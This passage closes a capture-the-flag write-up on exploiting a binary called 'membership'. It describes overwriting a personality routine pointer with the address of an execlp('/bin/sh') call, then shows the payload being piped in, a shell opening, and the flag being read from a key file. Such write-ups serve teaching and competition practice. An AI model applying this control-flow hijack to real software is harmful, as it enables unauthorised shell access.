 Remember (from a while ago&#8230;) that there was code that does <span class="lang:default decode:true  crayon-inline ">execlp(&#8220;/bin/sh&#8221;, &#8220;/bin/sh&#8221;, 0)</span> ?  
For those who don&#8217;t remember, it&#8217;s located at <span class="lang:default decode:true  crayon-inline ">0x8048E97</span> .

All we have to do at this point is to replace **0x41424344** (personality routine pointer) to **0x8048e97**.

AND

<pre class="nums:false lang:sh decode:true" title="WIN!">$ cat payload - | /home/membership/membership
userid :: password :: nested
whoami
membership
cat /home/membership/key
G4R4Ge_BaND_wANNAB3</pre>

Voila! We have our shell (and the flag, of course!)

&nbsp;

# 5. Closing

I hope you enjoyed reading this write-up. (Although I suspect not.. due to its obscene length)

I apologize that this ended up being a LOT longer than I anticipated when I started writing, but I think it contains quite a bit of details that people can follow and reproduce the result.

Try it while their server is up!! Otherwise you will have to patch the binary such that the addresses work out.

Thank you for reading, and feel free to leave comments if you have any questions or suggestions.

&nbsp;

Write-up by Cai (Brian Pak) [<a href="https://www.bpak.org" target="_blank">https://www.bpak.org</a>]

&nbsp;
